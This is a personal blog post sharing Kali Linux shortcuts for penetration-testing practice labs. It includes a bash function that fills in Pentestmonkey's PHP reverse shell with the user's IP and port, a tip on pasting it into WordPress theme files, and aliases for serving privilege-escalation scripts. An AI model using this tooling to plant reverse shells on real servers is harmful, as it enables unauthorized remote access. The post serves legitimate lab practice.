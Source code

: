 ```yaml
---
layout:     post
title:      Kali Linux QoL Improvements
date:       2019-09-21 15:20:20
author:     J
summary:    Life's too short
categories: General
thumbnail:  thumbs-up
tags:
 - Linux
 - Kali
 - PHP Reverse Shell
 - Bashrc
 - Bash Aliases
---
```


This post will be updated once in a blue moon. Just wanted to share some stuff which I use because I think it's good to automate certain repeated processes when hacking boxes. Life's too short to be wasting time on such things.

---

## PHP Reverse Shell Generator


This particular script is for generating a PHP reverse shell with IP address and port preconfigured in the current working directory. This is particularly useful if you find that your IP address has changed due to changing VPNs or just that a new one was issued to you when reconnecting. It works by creating a copy of Pentestmonkey's PHP Reverse Shell script into the current working directory, and changing the backconnect IP and Port to one of your choosing. This script is preloaded in Kali Linux somewhere(do a `/locate php-reverse-shell.php` to find it), but you can also just do a fresh download.

To use, just append it to your `.bashrc` file in your user's home directory and restart your terminal(Don't forget to change the script directory!). The original script can be found on [Pentestmonkey here][1]. Replace the ip address in the script to 'ipaddress' and set the port to 443.

Alternatively, you can download the [pre-modified version on my Github][2] to use with this script. Change the directory in the script to where you saved the script to.

Usage: `phprev <Interface> <Optional: Listening Port>`
<br>e.g. `phprev tun0 1234`


~~~bash
# Create PHP reverse shell in current directory. Usage example: phprev tun0 1234
# Defaults to port 443 if port is not specified

function phprev() {
        phprevshelldir=/root/Try-Harder/Scripts/Shells/php-reverse-shell.php #CHANGE THIS
        if [ $# -eq 0 ]; then echo "Please define interface"
        else
            revip=`ifconfig $1 | head -n2 | tail -n1 | awk '{print $2}' `
            cp $phprevshelldir ./rev.php && sed -i 's/ipaddress/'$revip'/g' rev.php
                if [ $# -eq 2 ]; then
                revport=$2 ;
                sed -i 's/443/'$2'/g' rev.php
                else revport=443
                fi
            echo "PHP reverse shell(rev.php) created and configured to connect back to:" $revip:$revport
        fi
}
~~~

If you need to copy and paste the script somewhere(e.g wordpress theme files), just use the following to have the contents copied to your clipboard quickly:

~~~bash
cat rev.php | xclip -sel clip
~~~

---

## Bash Aliases


Sometimes you have many folders that you need to navigate quickly, or long commands that you type. These can be shortened, saving lots of time and gives great convenience in the long run. This is a sample of what I have inside my `/root/.bash_aliases` file. If you don't have it, just create it. After adding aliases in, restart your terminal.

~~~bash
# Directories

alias htb='cd ~/0x4a/Hackthebox'
alias vhl='cd ~/0x4a/VirtualHackingLabs'
alias pwk='cd ~/0x4a/PWK'
alias scripts='cd ~/Try-Harder/Scripts'
alias linenum='cd ~/Try-Harder/Scripts/Linux-PrivEsc'
alias hostlse='cd ~/Try-Harder/Scripts/Linux-PrivEsc && python -m SimpleHTTPServer'
alias armoury='cd ~/The-Armoury'

# vpn

alias ovpn='openvpn ~/0x4a/Hackthebox/openvpn/Dreamscent.ovpn'

# Other

alias hosts='nano /etc/hosts'
alias tun0='ifconfig tun0 | head -n2'
alias ppp0='ifconfig ppp0 | head -n2'
alias pyhttp='python -m SimpleHTTPServer'
~~~

[1]: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[2]: https://github.com/Dreamscent/Try-Harder/blob/master/Scripts/Shells/php-reverse-shell.php
